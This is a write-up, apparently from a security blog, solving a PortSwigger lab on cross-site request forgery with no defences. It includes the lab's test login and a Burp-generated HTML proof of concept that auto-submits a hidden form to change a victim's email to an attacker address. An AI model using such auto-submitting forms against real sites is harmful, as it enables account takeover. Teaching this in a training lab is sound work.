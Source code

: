 ```yaml
---
author: Nithissh S
pubDatetime: 2024-10-13T15:22:00Z
modDatetime: 2024-10-13T09:12:47.400Z
title: CSRF vulnerability with no defenses
slug: csrf-portswigger-lab-12
featured: false
draft: false
tags:
  - BSCP
  - CSRF
description:
  This lab's email change functionality is vulnerable to CSRF. To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server. You can log in to your own account using the following credentials wiener:peter   
---
```


## Objective 

This lab's email change functionality is vulnerable to CSRF.

To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.

You can log in to your own account using the following credentials: wiener:peter

## Solution

Just like any other labs, this lab is actually kinda easy because this lab is of practitioner level and the same functionality is vulnerable to CSRF attack and this is how request and response looks like 

![](../../assets/images/bscp/csrf/csrf-39.png)

As you can observe in the above image, there is a lack of CSRF token being there in both the header and in the post body 

Let's generate the CSRF POC through the burp engagement tools 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a3b006e04b4243b80d1bc53003b0033.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attacker&#64;attacker&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Paste the above POC into the exploit server, and then `Store it -> Deliver the exploit to victim` and that solves the lab 

![](../../assets/images/bscp/csrf/csrf-40.png)